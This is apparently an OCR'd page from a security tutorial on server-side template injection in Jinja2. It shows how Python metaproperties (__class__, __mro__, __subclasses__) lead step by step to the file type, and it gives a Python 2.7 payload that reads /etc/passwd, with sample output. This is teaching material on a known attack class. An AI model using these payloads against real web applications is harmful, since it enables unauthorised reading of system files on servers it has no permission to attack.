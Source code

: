 
Reference: [Official Jinja documentation](https://jinja.palletsprojects.com/en/2.10.x/templates/)

### Opportunity for exploitation

Python metadata properties can be read from any Python object. Method calls are also not filtered. Accessing powerful operations such command execution is, however, not trivial.


#### Jinja exploitation basics

We can access the class from the metaproperties `__class__`.
```
{{''.__class__}}

<type 'str'>
```

From any class, we can get the Method Resolution Order (MRO) object. The MRO object contains the hierarchy of class for the current type.
```
{{''.__class__.__mro__}}

<type 'str'>, <type 'basestring'>, <type 'object'>
```


From the type object that we have previously found, we list all its subclasses. Effectively, enumerating all classes loaded the current context. The classes available will depends on the import made by the application. Imports can't be triggered easily in Jinja2.
```
{{''.__class__.__mro__[2].__subclasses__()}}

<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'> [...]
```

We can pick any type from the previous list and call methods from those. The element at index 40 in the object subclasses list is `<type 'file'>` (`{{''.__class__.__mro__[2].__subclasses__()[40]`). We can use this type to read arbitrary files.

```js
{{''.__class__.__mro__[2].__subclasses__()[40]("/etc/passwd","r").read()}}

//The previous extension is analog to
file("/etc/passwd","r").read()
```

Negative
: The last payload is Python 2.7 specific.


References: 
